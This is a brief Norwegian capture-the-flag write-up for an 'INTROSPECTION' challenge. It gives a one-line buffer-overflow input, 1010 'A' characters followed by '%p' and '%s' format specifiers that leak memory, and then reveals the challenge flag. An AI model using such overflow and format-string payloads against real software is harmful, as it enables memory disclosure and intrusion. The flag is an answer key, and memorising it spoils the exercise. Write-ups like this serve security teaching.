 ## INTROSPECTION

### Oppgave



*PS: Hele oppgaven finnes [her](challenge.md)*

### Løsning

Buffer overflow:

```bash
A * 1010 + " %p %p %p %p %s"
```

<details>
<summary>Flagg</summary>

`ironCTF{W0w!_Y0u_Just_OverWrite_the_Nul1!}`
</details>